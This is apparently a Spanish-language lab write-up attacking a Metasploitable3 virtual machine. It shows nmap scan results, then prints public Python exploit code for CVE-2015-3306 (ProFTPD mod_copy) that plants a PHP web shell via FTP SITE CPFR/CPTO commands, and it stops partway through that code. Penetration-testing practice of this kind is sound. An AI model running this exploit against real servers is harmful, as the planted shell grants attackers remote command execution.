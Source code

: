 ```
|_http-server-header: Jetty(8.1.7.v20120910)
MAC Address: 08:00:27:08:26:61 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts: 127.0.0.1, METASPLOITABLE3-UB1404, irc.TestIRC.net; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1s, deviation: 2s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: metasploitable3-ub1404
|   NetBIOS computer name: METASPLOITABLE3-UB1404\x00
|   Domain name: \x00
|   FQDN: metasploitable3-ub1404
|_  System time: 2025-02-19T17:27:33+00:00
| smb2-time: 
|   date: 2025-02-19T17:27:34
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

## Explotacion ftp

Clonamos el siguiente repositorio

```bash
git clone https://github.com/t0kx/exploit-CVE-2015-3306
```
Y tendra el siguiente codigo en python
```python
#!/usr/bin/env python
# CVE-2015-3306 exploit by t0kx
# https://github.com/t0kx/exploit-CVE-2015-3306

import re
import socket
import requests
import argparse

class Exploit:
    def __init__(self, host, port, path):
        self.__sock = None
        self.__host = host
        self.__port = port
        self.__path = path

    def __connect(self):
        self.__sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.__sock.connect((self.__host, self.__port))
        self.__sock.recv(1024)

    def __exploit(self):
        payload = "<?php echo passthru($_GET['cmd']); ?>"
        self.__sock.send(b"site cpfr /proc/self/cmdline\n")
        self.__sock.recv(1024)
        self.__sock.send(("site cpto /tmp/." + payload + "\n").encode("utf-8"))
        self.__sock.recv(1024)
        self.__sock.send(("site cpfr /tmp/." + payload + "\n").encode("utf-8"))
```